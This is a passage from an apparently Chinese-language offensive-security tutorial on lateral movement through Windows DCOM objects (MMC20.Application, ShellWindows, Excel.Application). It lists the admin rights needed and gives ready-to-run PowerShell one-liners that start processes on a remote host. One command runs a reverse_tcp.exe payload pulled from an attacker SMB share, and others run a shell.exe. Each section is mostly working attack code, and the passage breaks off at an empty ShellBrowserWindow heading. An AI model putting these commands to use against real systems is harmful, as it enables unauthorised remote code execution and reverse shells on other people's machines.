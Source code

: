 目前常利用的 DCOM 组件有：MMC20.Application、ShellWindows、Excel.Application、ShellBrowserWindow 等。

使用 DCOM 在远程主机上面执行命令，需要具有以下条件：

-   **具有管理员权限的 PowerShell**
-   **可能需要关闭目标系统的防火墙。**
-   **在远程主机上执行命令时，必须使用域管的 administrator 账户或者目标主机具有管理员权限的账户**

## [MMC20.Application](#toc_mmc20application)

MMC20.Application 对象的 Document.ActiveView 下存在一个 ExecuteShellCommand 方法，可以用来启动子进程并运行执行的程序或系统命令。

```plain
# 通过 progID 与 DCOM 进行远程交互，并创建 MMC20.Application 对象的示例 
$com =[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")) 

# 调用 ExecuteShellCommand 方法启动进程，运行攻击载荷 $com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized") 

# 合并一句话 [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.1.131")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.1.1\mysmb\reverse_tcp.exe", "Minimized")
```

## [ShellWindows](#toc_shellwindows)

ShellWindows 组件提供了 Document.Application.ShellExecute 方法，适用于 Windows7 及以上的系统。

```plain
# 通过 PowerShell 与 DCOM 进行远程交互，创建 ShellWindows 对象的实例：
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1 .131")) 

# 然后执行如下命令，我们就可以调用该对象的"ShellExecute"方法在远程主机上启动进程：$com.item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0) 

# 完整的命令：
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.131")).item().Document.Application.ShellExecute("cmd.exe","/c C:\shell.exe","c:\windows\system32",$null,0)
```

### [Excel.Application](#toc_excelapplication)

```plain
# 通过 PowerShell 与 DCOM 进行远程交互，创建 Excel.Application 对象的实例：
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.1.131")) 
$com.DisplayAlerts = $false 

# 然后执行如下命令，我们就可以调用该对象的"DDEInitiate"方法在远程主机上启动进程：$com.DDEInitiate("cmd.exe","/c C:\shell.exe")
```

### [ShellBrowserWindow](#toc_shellbrowserwindow)
